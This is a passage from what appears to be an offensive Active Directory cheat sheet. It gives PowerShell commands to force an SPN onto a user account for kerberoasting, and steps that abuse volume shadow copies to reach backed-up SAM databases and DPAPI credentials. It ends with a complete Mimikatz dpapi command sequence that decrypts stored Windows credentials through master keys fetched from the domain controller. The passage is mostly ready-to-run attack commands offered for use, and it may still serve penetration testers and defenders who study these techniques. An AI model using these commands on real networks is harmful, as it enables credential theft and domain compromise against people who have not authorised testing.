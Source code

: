 - AD Module:

  ```powershell
  #Check if current user has already an SPN setted
  Get-ADUser -Identity <UserName> -Properties ServicePrincipalName | select ServicePrincipalName

  #Force set the SPN on the account:
  Set-ADUser -Identiny <UserName> -ServicePrincipalNames @{Add='ops/whatever1'}
  ```

Finally use any tool from before to grab the hash and kerberoast it!

### Abusing Shadow Copies

If you have local administrator access on a machine try to list shadow copies, it's an easy way for Domain Escalation.

```powershell
#List shadow copies using vssadmin (Needs Admnistrator Access)
vssadmin list shadows

#List shadow copies using diskshadow
diskshadow list shadows all

#Make a symlink to the shadow copy and access it
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
```

1. You can dump the backuped SAM database and harvest credentials.
2. Look for DPAPI stored creds and decrypt them.
3. Access backuped sensitive files.

### List and Decrypt Stored Credentials using Mimikatz

Usually encrypted credentials are stored in:

- `%appdata%\Microsoft\Credentials`
- `%localappdata%\Microsoft\Credentials`

```powershell
#By using the cred function of mimikatz we can enumerate the cred object and get information about it:
dpapi::cred /in:"%appdata%\Microsoft\Credentials\<CredHash>"

#From the previous command we are interested to the "guidMasterKey" parameter, that tells us which masterkey was used to encrypt the credential
#Lets enumerate the Master Key:
dpapi::masterkey /in:"%appdata%\Microsoft\Protect\<usersid>\<MasterKeyGUID>"

#Now if we are on the context of the user (or system) that the credential belogs to, we can use the /rpc flag to pass the decryption of the masterkey to the domain controler:
dpapi::masterkey /in:"%appdata%\Microsoft\Protect\<usersid>\<MasterKeyGUID>" /rpc

#We now have the masterkey in our local cache:
dpapi::cache

#Finally we can decrypt the credential using the cached masterkey:
dpapi::cred /in:"%appdata%\Microsoft\Credentials\<CredHash>"
```
